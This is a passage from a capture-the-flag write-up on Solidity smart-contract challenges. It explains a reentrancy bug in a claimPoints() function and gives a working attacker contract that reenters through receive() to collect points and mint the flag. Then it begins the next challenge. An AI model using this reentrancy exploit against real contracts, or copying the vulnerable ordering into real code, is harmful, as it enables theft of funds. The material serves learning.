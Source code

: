 PS: You could probably recreate this in Hardhat and get the account and signature directly but I was too lazy to setup Hardhat.

## Challenge #5: **Give Me My Points!**

This is a classic reentrancy challenge. The `claimPoints()` function only lets us increase our points once but we need to have a total of 10 points to mint the flag.

```solidity
function claimPoints() public {
    require(points[tx.origin] == 0, "Already claimed points");
    (bool success, ) = msg.sender.call("");
    require(success, "External call failed");

    points[tx.origin] += 1;
}
```

The bug in this function is that it increments the points after making the external call, instead of the other way around. Due to this, we can reenter through the fallback/receive function of our contract and call this function multiple times in the same transaction. Here’s a contract that does that:

```solidity
//SPDX-License-Identifier: MIT
pragma solidity >=0.8.0 <0.9.0;

interface IChallenge5 {
    function claimPoints() external;
}

contract Challenge5Answer {
    uint counter = 0;

    function mintFlag() public {
        counter += 1;
        IChallenge5(0xB76AdFe9a791367A8fCBC2FDa44cB1a2c39D8F59).claimPoints();
    }

    receive() external payable { 
        if (counter < 11)
        {
            mintFlag();
        }
    }
}
```

## Challenge #6: **Meet all the conditions**

As the name states, this challenge requires us to meet the 3 conditions specified in the ‘require’ statements of the contract. The first one is an easy one to crack.
